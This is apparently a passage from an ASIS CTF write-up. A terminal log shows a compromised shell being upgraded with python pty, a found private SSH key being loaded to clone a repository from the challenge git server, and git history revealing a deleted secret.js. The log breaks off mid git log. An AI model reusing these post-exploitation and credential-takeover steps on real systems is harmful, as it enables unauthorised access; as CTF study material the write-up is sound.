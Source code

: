 ```bash
root@02fc8cadcd26:/tmp# python -c "__import__('pty').spawn('/bin/bash')"

root@02fc8cadcd26:/tmp# stty -raw -echo -brkint rows 80

root@02fc8cadcd26:/tmp# export TERM=screen-256color

root@02fc8cadcd26:~/.ssh# cat config
Host the-git-server
        Hostname the-git-server.asisctf.com
        Port 8022
        User git

root@02fc8cadcd26:/tmp# eval $(ssh-agent -s)
Agent pid 5486

root@02fc8cadcd26:/tmp# ls ~/.ssh
config  id_ed25519  id_ed25519.pub

root@02fc8cadcd26:/tmp# ssh-add ~/.ssh/id_ed25519
Identity added: /root/.ssh/id_ed25519 (root@133981c8b288)

root@02fc8cadcd26:/tmp# git clone git@the-git-server:username/the-real-server.git

root@02fc8cadcd26:/tmp/the-real-server# ls
README.md  app.js  package.json  ping.js  token.js
```

```bash
root@02fc8cadcd26:/tmp/the-real-server# git log --stat
commit fa74c47011dd60115cc49359de248740c115442f (HEAD ->
master, origin/master, origin/HEAD)
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:51 2020 +0000

    Fix port

 app.js | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)

commit 4220825b5538d2afa85f44c0f6dea16970585d43
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:06 2020 +0000

    Fix code

 app.js | 6 ++++++
 1 file changed, 6 insertions(+)

commit 58e9c037f11e8fbe1e04474b61af2ae570b8ab05
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:44:19 2020 +0000

    Update files

 .gitignore | 1 +
 secret.js  | 4 ----
 2 files changed, 1 insertion(+), 4 deletions(-)

commit 4da43efc485e255ef9eb1de0c115d63d58e6d044
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:43:06 2020 +0000

    Add code

```